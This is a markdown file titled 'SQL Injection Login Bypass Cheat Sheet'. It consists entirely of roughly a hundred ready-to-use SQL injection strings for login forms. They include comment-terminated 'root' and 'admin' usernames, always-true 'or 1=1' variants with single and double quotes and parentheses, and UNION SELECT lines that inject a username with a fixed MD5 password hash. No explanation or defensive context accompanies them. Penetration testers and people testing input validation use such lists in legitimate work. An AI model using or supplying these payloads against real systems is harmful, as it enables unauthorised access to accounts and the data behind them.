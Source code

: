 ## SQL Injection Login Bypass Cheat Sheet 

root' --
root' #
root'/*
root' or '1'='1
root' or '1'='1'--
root' or '1'='1'#
root' or '1'='1'/*
root'or 1=1 or ''='
root' or 1=1
root' or 1=1--
root' or 1=1#
root' or 1=1/*
root') or ('1'='1
root') or ('1'='1'--
root') or ('1'='1'#
root') or ('1'='1'/*
root') or '1'='1
root') or '1'='1'--
root') or '1'='1'#
root') or '1'='1'/*
or 1=1
or 1=1--
or 1=1#
or 1=1/*
' or 1=1
' or 1=1--
' or 1=1#
' or 1=1/*
" or 1=1
" or 1=1--
" or 1=1#
" or 1=1/*
1234 ' AND 1=0 UNION ALL SELECT 'root', '81dc9bdb52d04dc20036dbd8313ed055
root" --
root" #
root"/*
root" or "1"="1
root" or "1"="1"--
root" or "1"="1"#
root" or "1"="1"/*
root" or 1=1 or ""="
root" or 1=1
root" or 1=1--
root" or 1=1#
root" or 1=1/*
root") or ("1"="1
root") or ("1"="1"--
root") or ("1"="1"#
root") or ("1"="1"/*
root") or "1"="1
root") or "1"="1"--
root") or "1"="1"#
root") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "root", "81dc9bdb52d04dc20036dbd8313ed055
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
